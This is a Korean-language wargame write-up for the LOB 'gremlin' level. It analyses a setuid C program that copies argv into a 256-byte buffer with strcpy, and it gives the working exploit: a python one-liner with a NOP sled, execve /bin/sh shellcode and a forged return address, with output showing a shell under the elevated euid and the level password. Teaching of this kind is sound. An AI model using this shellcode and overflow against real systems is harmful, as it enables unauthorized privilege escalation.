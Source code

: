 ```yaml
---
title: "LOB simple bof Write-Up"
tags: [lob]
categories: [System]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [소스코드 확인](#소스코드-확인)
3. [Exploit](#exploit)

* * *

## 문제 분석

LEVEL 1 계정으로 서버에 접속하면 setuid, setgid가 설정된 실행파일과 소스코드 파일이 존재하는 것을 확인할 수 있습니다.

```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
```

가장 먼저 프로그램을 실행해보면 다음과 같은 내용이 출력됩니다.

```
[gate@localhost gate]$ ./gremlin 
argv error
```

`argv error`가 출력되는 것을 보아 프로그램을 실행할 때 전달해줄 인자가 필요한 것으로 보입니다. 문자열 인수를 전달하여 실행해본 결과 아래와 같이 readback 되는 것을 확인할 수 있습니다.

```
[gate@localhost gate]$ ./gremlin TEST
TEST
```

인자를 전달 받는 부분에서 Overflow가 발생할 것이라는 점을 예상할 수 있었습니다.

## 소스코드 확인

주어진 소스코드는 아래와 같이 작성되어 있었습니다.

```c
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- gremlin
	- simple BOF
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

앞서 프로그램의 동작을 통해 확인하였듯이 인자의 수가 2개 이하일 경우 error message를 출력 후 실행을 종료합니다. 기본적으로 프로그램은 실행될 때 자신의 실행 경로를 argument로 전달하므로 추가적으로 하나만 더 전달하면 되는 것을 알 수 있습니다.

조건을 만족하여 실행될 경우 입력받은 argument를 buffer 변수로 복사합니다. 이때 strcpy를 이용하여 Buffer overflow가 발생할 수 있음을 알 수 있습니다.

## Exploit

프로그램 내에 별도의 shell 실행 함수는 없었기에 직접 shellcode를 삽입 후 RET 주소를 변조할 필요가 있어보였습니다. buffer 변수의 크기가 256 Byte이며 SFP 4 Byte 이후 그 다음 4 Byte가 RET 주소임을 확인할 수 있었습니다.

획득한 정보를 사용하여 아래와 같은 형태로 payload를 구성하였었습니다.

```
NOP Shield(235 Byte) + Shellcode(25 Byte) + Forged RET Address(4 Byte)
```

그러나 첫 시도를 하였을 때 제대로 RET 주소의 변조가 되지 않았고, 찾아본 결과 LOB 환경 구성에 사용된 bash version 때문에 `0xff`를 `0x00`과 같게 인식한다는 것을 알 수 있었습니다.

RET 주소에 `0xff`가 사용되기 때문에 이를 수정하기 위해서는 bash2를 사용하여 진행해야 한다는 것까지 확인할 수 있었습니다. [참조 링크](https://dokhakdubini.tistory.com/208)

Bash2로 실행 후, buffer의 시작 주소를 구하여 다음과 같이 실행한 결과 bash shell을 획득할 수 있었습니다.

```
[gate@localhost gate]$ ./gremlin `python -c 'print("\x90"*110+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*125+"\x08\xf9\xff\xbf")'`

1󿿐h//shh/bin⏓󿲒°
               ̀ 
bash$ 
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```
